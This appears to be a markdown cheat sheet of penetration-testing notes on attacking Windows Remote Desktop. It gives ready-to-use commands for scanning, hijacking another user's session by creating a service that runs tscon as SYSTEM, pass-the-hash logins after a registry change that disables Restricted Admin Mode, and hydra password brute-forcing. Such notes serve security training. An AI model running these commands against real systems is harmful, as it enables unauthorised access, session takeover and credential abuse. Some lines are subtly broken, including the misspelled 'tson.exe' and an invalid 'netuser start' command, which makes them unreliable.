

## Footprinting the Service

```bash
 nmap -Pn -p3389 <TARGET_IP>
```

## Logging into RDP

```bash
xfreerdp3 /v:<TARGET IP> /u:<username> /p:"<password>"
```

## RDP Session Hijacking

- To successfully impersonate another we need to have `SYSTEM` privileges and use the Microsoft `tscon.exe` binary that enables users to connect to another desktop session. 
- `tson.exe` works by specifying the **SESSION_ID** we would like to connect to.
- The below command works inside a Windows machine. Applied in a situation where we want to login as another using RDP.

```bash
query user # list the users logged in via RDP
sc.exe create sessionhijack binpath= "cmd.exe /k tscon <TARGET_SESSION_ID> /dest:<TARGET_SESSION_NAME>"
netuser start sessionhijack
whoami # check user after hijacking
```

## Pass the Hash (PtH) with `RDP`

- Normally Pass the Hash using `rdp` won't work because of the following reason :-
	- `Restricted Admin Mode`: This mode requires us to enter the password and username but since we only possess the hash of the password we need to set `DisableRestrictedAdmin` this value to `0` so that we can enter the username and hash value instead of the password.



- To prevent the above error we need to disable the `Restricted Admin Mode` or set it to `0` using the below command.

### Adding the `DisableRestrictedAdmin` Registry Key

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

- Now finally RDP is possible.

```bash
xfreerdp  /v:<TARGET_IP> /u:<USERNAME> /pth:<HASH>
```


## RDP Exploitation

### Bruteforce Attack RDP

```bash
hydra -L <username/user wordlist> -P <password/password wordlist> rdp://<TARGET IP>
```


